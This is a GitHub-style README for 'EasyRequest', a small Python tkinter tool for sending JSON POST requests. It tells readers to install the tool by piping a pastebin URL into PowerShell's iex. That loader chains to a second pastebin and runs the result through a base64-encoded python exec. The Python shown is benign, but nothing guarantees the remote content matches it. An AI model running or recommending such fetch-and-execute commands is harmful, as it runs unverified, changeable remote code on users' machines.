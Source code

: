 # EasyRequest
Make request easily with an interface in one powershell line.
This was entirely videcoded because I needed to test a server.
Just use ```iex (iwr "https://pastebin.com/raw/H3N3SVR8")```, it uses a pastbin link that contains:
```
# PowerShell loader that fetches Python code from a second Pastebin URL
$pyRawUrl = "https://pastebin.com/raw/CfdK8rq2"  # Replace with your actual Python code Pastebin
$pyCode = Invoke-WebRequest -Uri $pyRawUrl
$bytes = [System.Text.Encoding]::UTF8.GetBytes($pyCode.Content)
$base64 = [Convert]::ToBase64String($bytes)
python -c "import base64; exec(base64.b64decode('$base64'))"
```

This powershell script itself runs in python the content of a pastbin which is:
```
import tkinter as tk
from tkinter import scrolledtext, messagebox
import requests, json
 
def send_request():
    url = url_entry.get()
    try:
        data = json.loads(json_text.get("1.0", tk.END))
    except json.JSONDecodeError:
        messagebox.showerror("Invalid JSON", "The JSON data is not valid.")
        return
 
    try:
        response = requests.post(url, json=data)
        result_text.delete("1.0", tk.END)
        result_text.insert(tk.END, f"Status Code: {response.status_code}\n\n")
        try:
            result_text.insert(tk.END, json.dumps(response.json(), indent=2))
        except ValueError:
            result_text.insert(tk.END, response.text)
    except requests.exceptions.RequestException as e:
        result_text.delete("1.0", tk.END)
        result_text.insert(tk.END, f"Request failed:\n{str(e)}")
 
root = tk.Tk()
root.title("JSON POST Request Tester")
 
tk.Label(root, text="URL (address:port/endpoint):").pack()
url_entry = tk.Entry(root, width=80)
url_entry.pack()
 
tk.Label(root, text="JSON Arguments:").pack()
json_text = scrolledtext.ScrolledText(root, width=80, height=10)
json_text.pack()
 
send_button = tk.Button(root, text="Send POST Request", command=send_request)
send_button.pack(pady=5)
 
tk.Label(root, text="Response:").pack()
result_text = scrolledtext.ScrolledText(root, width=80, height=15)
result_text.pack()
 
root.mainloop()
```
